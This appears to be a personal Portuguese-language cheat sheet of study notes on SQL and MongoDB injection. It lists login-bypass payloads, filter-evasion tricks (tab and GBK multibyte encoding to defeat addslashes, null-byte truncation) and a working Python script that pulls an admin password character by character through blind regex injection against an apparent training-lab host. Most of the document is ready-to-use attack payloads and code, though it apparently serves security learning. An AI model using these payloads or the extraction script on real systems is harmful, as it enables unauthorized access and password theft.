

SQL INJECTION


MySQL

' or 1=1 -- (sempre deixe um spaço depois do --)

lembre-se pode usar "  '  \`

alguns devs limitam para apenas um resultado LIMIT
'or 1==1 LIMIT 1 --



é possivel fazer um bypass nesse filtro usando tabulação HT or /t
%09 em URL encoding

admin%27||1%3d1%23

é raro de acontencer, é mais pra CTFs, mas é possivel que um banco de dados use um encoding diferente da linguagem de programação da interface. Por exemplo o addslashes usado para sanatizar o input do usuario contra ' pode ser bypassado pela string %bf ou ¿ pois o encoding usado la era o GBK (chines)
https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string


dmin%BF%27+or+1%3D1+--+

'||1=1#
NO SQL MONGO

'|| 1==1 é equivalente a 'or 1=1 

comentario no mongo <!-- ou //

chat gpt:
https://chat.openai.com/c/6a6f9a4d-4ba1-40ba-ac46-903d18b37e00

para alguns é legal usar o nullbyte para cancelar o resto do payload %00

/?search=admin'%20%26%26%20this.password.match(/.*$/)%00

script em python que checa um blind sql injection
```
import urllib.request
import string

URL = "https://ptl-28acd294-918d5d06.libcurl.so"

def check(payload):
    url = URL+"/?search=admin%27%20%26%26%20this.password.match(/"+payload+"/)%00"
    print(url)
    resp = urllib.request.urlopen(url)
    data = resp.read()
    return ">admin<" in str (data)


#print(check("^demo.*$"))

CHARSET = list("-"+string.ascii_lowercase+string.digits)
password = ""

while True:
    for c in CHARSET:
        print("Trying: "+c+" for "+password)
        test = password+c
        if check("^"+test+".*$"):
            password+=c
            print(password)
            break
        elif c == CHARSET[-1]:
            print(password)
            exit(0)
```                   